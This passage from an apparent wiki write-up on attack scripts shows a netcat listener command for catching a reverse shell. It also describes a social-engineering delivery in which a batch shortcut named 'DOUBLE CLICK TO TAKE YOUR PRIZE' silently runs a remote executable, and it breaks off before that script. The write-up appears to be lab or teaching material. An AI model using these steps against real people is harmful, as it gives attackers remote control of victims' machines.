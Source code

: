 Note: use another path if your executable file is not located in the working directory.

The next step is to use netcat to wait and catch the shell when the delivered script is executed:

```bash
nc -lvnp 4444
```

![listening](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Andrei%20Chiper/images/img9.jpeg?raw=true)

Next we are going to discuss how to deliver.

### Delivery

Intruder transmits weapon to target (e.g., via e-mail attachments, websites or USB drives).

Through email or various methods we can either use a PDF file that contains the malicious link to that server containing the executable file or to place a good looking batch script on the target computer. 

For that we created a shortcut to a batch file placed on the Desktop of the Windows machine called `DOUBLE CLICK TO TAKE YOUR PRIZE`. Once executed, it will first silently run the executable file remotely opening the shell on the Kali machine. Here is the script used:
